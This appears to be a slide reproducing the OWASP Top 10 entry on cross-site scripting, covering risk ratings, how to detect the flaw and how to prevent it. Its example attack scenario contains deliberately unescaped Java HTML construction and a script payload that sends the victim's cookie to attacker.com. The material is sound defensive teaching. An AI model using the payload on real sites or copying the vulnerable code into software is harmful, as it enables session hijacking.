

A3
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| Application Specific | Exploitability AVERAGE | Prevalence VERY WIDESPREAD | Detectability EASY | Impact MODERATE | Application / Business Specific |
| Consider anyone who can send untrusted data to the system, including external users, internal users, and administrators. | Attacker sends text-based attack scripts that exploit the interpreter in the browser. Almost any source of data can be an attack vector, including internal sources such as data from the database. | XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are three known types of XSS flaws: 1) Stored, 2) Reflected, and 3) DOM based XSS. Detection of most XSS flaws is fairly easy via testing or code analysis. |  | Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc. | Consider the business value of the affected system and all the data it processes. Also consider the business impact of public exposure of the vulnerability. |

 Technical
   Impacts
           Security
          Weakness
Business
Impacts
    Attack
    Vectors
Threat
Agents

Am I Vulnerable to XSS?
You are vulnerable if you do not ensure that all user supplied input is properly escaped, or you do not verify it to be safe via input validation, before including that input in the output page. Without proper output escaping or validation, such input will be treated as active content in the browser. If Ajax is being used to dynamically update the page, are you using safe JavaScript APIs? For unsafe JavaScript APIs, encoding or validation must also be used.
Automated tools can find some XSS problems automatically. However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, making automated detection difficult. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.
Web 2.0 technologies, such as Ajax, make XSS much more difficult to detect via automated tools.
How Do I Prevent XSS?
Preventing XSS requires separation of untrusted data from active browser content.
The preferred option is to properly escape all untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.
Positive or “whitelist” input validation is also recommended as it helps protect against XSS, but is not a complete defense as many applications require special characters in their input. Such validation should, as much as possible, validate the length, characters, format, and business rules on that data before accepting the input.
For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Consider Content Security Policy (CSP) to defend against XSS across your entire site.
Example Attack Scenario
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
  (String) page += "<input name='creditcard' type='TEXT‘
  value='" + request.getParameter("CC") + "'>";
The attacker modifies the ‘CC’ parameter in his browser to:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See A8 for info on CSRF.
References
OWASP
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP Cross-Site Scripting Article
 ESAPI Encoder API
 ASVS: Output Encoding/Escaping Requirements (V6)
 OWASP AntiSamy: Sanitization Library
 Testing Guide: 1st 3 Chapters on Data Validation Testing
 OWASP Code Review Guide: Chapter on XSS Review
 OWASP XSS Filter Evasion Cheat Sheet
External
 CWE Entry 79 on Cross-Site Scripting